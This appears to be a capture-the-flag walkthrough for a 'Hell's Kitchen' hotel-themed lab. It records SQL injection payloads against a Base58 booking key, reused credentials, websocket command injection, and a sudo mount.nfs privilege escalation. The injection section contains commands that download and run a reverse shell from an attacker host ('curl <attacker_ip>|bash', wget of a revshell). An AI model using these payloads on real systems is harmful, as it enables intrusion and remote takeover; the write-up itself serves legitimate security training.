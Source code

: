 # DX2: Hell's Kitchen

## Description

We need to recover the lost Ambrosia shipment from the NSF (National Secessionist Forces), the only treatment for the plague known as the Grey Death. However, we haven't located their main base of operations.

What we do know is some of the key figures in the organisation, and their associates: Jojo Fine, a punk who runs drugs through Hell's Kitchen, has been identified as a lieutenant in the NSF, and has one Sandra Renton, the daughter of a local hotelier for the 'Ton Hotel on his payroll.

Investigate the websites of the 'Ton Hotel and see if you can find anything that leads us to the NSF.

## Notes

- Open ports: `80, 4346`
- There is an `/api` route that is being hosted.
- For `/api/booking-info`, the `booking_key` appears to be Base58 encoded. (ran through CyberChef)
- Booking Key decoded format: `booking_id:<number>`.
- Booking key is vulnerable to SQLi.
- Can figure out number of columns by encoding `booking_id:1' union select 1,2 --;`
- Can get tables by: `booking_id:1' union SELECT group_concat(name,','),1 FROM sqlite_master WHERE type='table' --;`
- Tables discovered: `email_access,reservations,bookings_temp`
- Made [python script](db_dumper.py) to dump database.
- Creds discovered: `pdenton:4321chameleon`
- Email server running on port 4346.
- Command injection in websockets via `UTC;<command>;`
- Note in `dad.txt` indicates SUID bit is set for a binary `left you a note by the site -S`.
- Possible password leaked in `hotel-jobs.txt`: `ilovemydaughter`
- Netstat on machine shows port 111 open.
- Possible credential in `/srv/.dad`: `anywherebuthere` with an `-S` next to it (sandra?).
- Can `su sandra` using `anywherebuthere`.
- Possible cred for JoJo in `/home/sandra/Pictures/boss.jpg`: `kingofhellskitchen`
- Can `su jojo` using `kingofhellskitchen`
- Note in `/home/jojo` references NSF mount. 
- Can run `/usr/sbin/mount.nfs` as sudo with JoJo.

### Check-Room.js

```js
fetch('/api/rooms-available').then(response => response.text()).then(number => {
    const bookingBtn = document.querySelector("#booking");
    bookingBtn.removeAttribute("disabled");
    if (number < 6) {
        bookingBtn.addEventListener("click", () => {
            window.location.href = "new-booking";
        });
    } else {
        bookingBtn.addEventListener("click", () => {
            alert("Unfortunately the hotel is currently fully booked. Please try again later!")
        });
    }
});
```

### New-Booking.js

```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

fetch('/api/booking-info?booking_key=' + getCookie("BOOKING_KEY")).then(response => response.json()).then(data => {
    document.querySelector("#rooms").value = data.room_num;
    document.querySelector("#nights").value = data.days;
});
```

### Dump Database (Automated)

```bash
python3 db_dumper.py $TARGET
```

### Websocket Communication JS

```js
let elems = document.querySelectorAll(".email_list .row");
for (var i = 0; i < elems.length; i++) {
    elems[i].addEventListener("click", (e => {
        document.querySelector(".email_list .selected").classList.remove("selected"), e.target.parentElement.classList.add("selected");
        let t = e.target.parentElement.getAttribute("data-id"),
            n = e.target.parentElement.querySelector(".col_from").innerText,
            r = e.target.parentElement.querySelector(".col_subject").innerText;
        document.querySelector("#from_header").innerText = n, document.querySelector("#subj_header").innerText = r, document.querySelector("#email_content").innerText = "", fetch("/api/message?message_id=" + t).then((e => e.text())).then((e => {
            document.querySelector("#email_content").innerText = atob(e)
        }))
    })), document.querySelector(".dialog_controls button").addEventListener("click", (e => {
        e.preventDefault(), window.location.href = "/"
    }))
}
const wsUri = `ws://${location.host}/ws`;
socket = new WebSocket(wsUri);
let tz = Intl.DateTimeFormat().resolvedOptions().timeZone;
socket.onmessage = e => document.querySelector(".time").innerText = e.data, setInterval((() => socket.send(tz)), 1e3);
```

### WS Injection

Create this as `index.html`

```bash
wget http://<attacker_ip>/revshell -O /dev/shm/revshell
chmod +x /dev/shm/revshell
nohup /dev/shm/revshell &
```

Serve on port 80 `python3 -m http.server 80`.

To socket:

```
UTC;curl <attacker_ip>|bash;
```

### JoJo Sudo Privs

```
Matching Defaults entries for jojo on tonhotel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jojo may run the following commands on tonhotel:
    (root) /usr/sbin/mount.nfs
```

### Root Access

Create a share on your attack machine: `/tmp/tmpshare`

```
sudo chown nobody:nogroup /tmp/tmpshare
sudo chmod 777 /tmp/tmpshare
```

Update `/etc/nfs.conf` to open port 443 under `[nfsd]`.
Add `/tmp/tmpshare` to `/etc/exports` (`/tmp/tmpshare *(rw,sync,no_subtree_check)`)
Export new config: `sudo exportfs -a`

On target:

```
sudo /usr/sbin/mount.nfs -o port=443 <attack_ip>:/tmp/tmpshare /usr/sbin
cp /bin/bash /usr/sbin/mount.nfs
sudo /usr/sbin/mount.nfs
```

